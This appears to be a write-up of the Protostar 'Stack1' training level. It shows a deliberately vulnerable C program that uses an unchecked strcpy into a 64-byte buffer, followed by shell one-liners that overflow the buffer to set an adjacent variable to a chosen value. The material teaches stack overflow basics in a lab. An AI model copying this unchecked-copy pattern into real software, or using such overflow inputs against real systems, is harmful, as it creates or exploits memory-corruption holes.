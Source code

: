 #### Stack1

###### About

- This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

- This level is at ``/opt/protostar/bin/stack1``

- Hints
	- If you are unfamiliar with the hexadecimal being displayed, ``man ascii`` is your friend.
	- Protostar is little endian

``stack1.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack1 AAA
Try again, you got 0x00000000
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./stack1 `python -c "print 'A'*68"`
Try again, you got 0x41414141
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./stack1 `python -c "print 'A'*64 +'\x64\x63\x62\x61'"`
you have correctly got the variable to the right value
user@protostar:/opt/protostar/bin$
```

```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A'*64 + '\x64\x63\x62\x61'")
you have correctly got the variable to the right value
user@protostar:/opt/protostar/bin$
```
